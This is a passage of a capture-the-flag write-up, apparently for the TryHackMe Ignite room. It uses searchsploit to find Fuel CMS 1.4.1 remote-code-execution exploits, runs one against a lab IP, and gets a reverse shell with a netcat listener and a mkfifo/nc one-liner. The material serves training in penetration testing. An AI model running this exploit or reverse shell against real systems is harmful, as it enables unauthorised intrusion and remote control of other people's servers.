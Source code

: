```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Ignite]
└─$ searchsploit Fuel CMS      
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                      | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                      | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                      | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                     | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                            | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)                              | php/webapps/50884.txt
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

We can copy the RCE3 to our directory and use it :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Ignite]
└─$ python3 50128.py -u http://10.10.182.218 
python3: can't open file '/home/hax/THM/CHALLENGES/Easy/Ignite/50128.py': [Errno 2] No such file or directory
                                                                                                                  
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Ignite]
└─$ python3 50477.py -u http://10.10.182.218 
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Now we can obtain a [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md), first we open a listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```
nc -lvnp 1337
```

Then on the target we execute the following command :

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.8.162.183 1337 >/tmp/f
```

